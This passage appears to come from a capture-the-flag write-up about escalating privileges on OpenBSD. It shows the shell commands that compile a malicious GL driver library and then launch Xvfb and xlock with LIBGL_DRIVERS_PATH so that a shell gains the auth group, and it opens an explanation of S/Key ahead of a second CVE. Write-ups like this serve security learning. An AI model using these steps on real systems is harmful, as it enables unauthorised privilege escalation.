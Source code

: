     > EOF                             
    openkeys$ gcc -fpic -shared -s -o swrast_dri.so swrast_dri.c



Next I run `Xvfb`, which is the virtual framebuffer. It's not totally
clear to my why I do this, but I'm setting up the server to listen for
connections on a server (poc uses `:66`, but it's arbitrary, I'll use
`:45`). I think this is to allow me to get a response from `xlock` even
though it's not a program that displays anything. When I run it,
sometimes it throws an error (on a clean reset it does not), but it's
still running in the background (because of the `&` at the end of the
line):



    openkeys$ env -i /usr/X11R6/bin/Xvfb :45 -cc 0 &
    [1] 44906
    openkeys$ _XSERVTransmkdir: ERROR: euid != 0,directory /tmp/.X11-unix will not be created.



Now I'll run `xlock`, with the `LIBGL_DRIVERS_PATH` set to the current
directory, and tell it to display on `:45`. The resulting shell has the
`auth` group:



    openkeys$ env -i LIBGL_DRIVERS_PATH=. /usr/X11R6/bin/xlock -display :45
    openkeys$ id
    uid=1001(jennifer) gid=11(auth) groups=1001(jennifer), 0(wheel)



### Manual CVE-2019-19522

#### S/Key Background

[S/Key](https://en.wikipedia.org/wiki/S/KEY) is a one-time password
(OTP) system. It works by starting with some seed, hashing it, and
saving that as the last item in a list. It then hashes that result
again, and saves it as the second to last item. It continues n times,
generating a list of n hashes. The server keeps only the first hash on
the list, and give the rest (2 to n) to the user. When the user logs in,
they provide the top hash on the list, which the server hashes. If it
matches what was in the config, it grants access and updates the config
with the provided hash. The user can cross the top hash off their list,
next time providing the next hash.

The config file for each use lives in `/etc/skey`. The [man
page](https://man.openbsd.org/skey.5) for S/Key shows an example file:



    root
    md5
    99
    obsd36521
    1f4359a3764b675d
